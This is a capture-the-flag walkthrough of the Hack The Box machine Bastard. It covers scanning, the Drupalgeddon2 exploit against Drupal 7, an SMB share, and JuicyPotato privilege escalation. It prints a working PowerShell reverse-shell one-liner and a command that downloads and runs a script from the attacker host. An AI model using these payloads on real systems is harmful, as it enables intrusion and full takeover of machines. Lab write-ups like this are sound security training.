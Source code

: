 # Box 



![](img/Pasted%20image%2020210820061623.png)

https://app.hackthebox.eu/machines/Bastard

# Profile

 <img src="http://www.hackthebox.eu/badge/image/296177" alt="Hack The Box"> 

https://www.hackthebox.eu/home/users/profile/296177

# Table of contents

* [Reconnaissance](#reconnaissance)
* [Exploitation](#exploitation)
* [Post-Exploitation](#post-exploitation)
  + [User & Root](#user--root)

# Contents 

## Reconnaissance

Let's start with nmap :

```bash
nmap -sV -sC -Pn --top-ports 1000 -oN scan_10.10.10.9 10.10.10.9
```

![](img/Pasted%20image%2020210820065454.png)


From my previous experience I know that Drupal 7 is vulnerable to RCE, you can get the  exploit here.  (https://github.com/dreadlocked/Drupalgeddon2)
## Exploitation 

Let's run it.


![](img/Pasted%20image%2020210820065606.png)


Now we have command execution : 

![](img/Pasted%20image%2020210820065636.png)


## Post-Exploitation
### User & Root
However is it not a reverse shell so let's trigger it.

I used this payload for my reverse shell :
```powershell
$client = New-Object System.Net.Sockets.TCPClient('10.10.14.13',1234);$stream = $client.GetStream();[byte[]]$bytes = 0..65535|%{0};while(($i = $stream.Read($bytes, 0, $bytes.Length)) -ne 0){;$data = (New-Object -TypeName System.Text.ASCIIEncoding).GetString($bytes,0, $i);$sendback = (iex $data 2>&1 | Out-String );$sendback2  = $sendback + 'PS ' + (pwd).Path + '> ';$sendbyte = ([text.encoding]::ASCII).GetBytes($sendback2);$stream.Write($sendbyte,0,$sendbyte.Length);$stream.Flush()};$client.Close()
```

Now let's convert it to base64.

```sh
echo "<payload>" | iconv -t utf-16le | base64 -w 0
```

![](img/Pasted%20image%2020210820070034.png)

![](img/Pasted%20image%2020210820070046.png)

Let's setup a smbserver to transfer files easily.
```
smbserver.py share . -smb2support
```

```
net use x: \\10.10.14.13\share
```

Let's check for our privileges : 

![](img/Pasted%20image%2020210820074232.png)

Since we have the `SeImpersonatePrivilege` Enabled we can use JuicyPotato to get a root shell.

But first we need to know what is the current os to get a valid CLSID.

Running `systeminfo`

![](img/Pasted%20image%2020210820074408.png)

On this page you can find CLSID for different versions of windows : 
https://ohpe.it/juicy-potato/CLSID/

Let's use `{9B1F122C-2982-4e91-AA8B-E071D54F2A4D}`

For this exploit let's create a file `rev.ps1` with our previous reverse shell and download it thanks to `JuicyPotato`.

Let's run it ! 

```
.\JuicyPotato -l 1337 -c "{9B1F122C-2982-4e91-AA8B-E071D54F2A4D}" -p c:\windows\system32\cmd.exe -a "/c powershell -ep bypass iex (New-Object Net.WebClient).DownloadString('http://10.10.14.13:4444/rev.ps1')" -t *
```

![](img/Pasted%20image%2020210820074704.png)

![](img/Pasted%20image%2020210820074642.png)

Rooted.
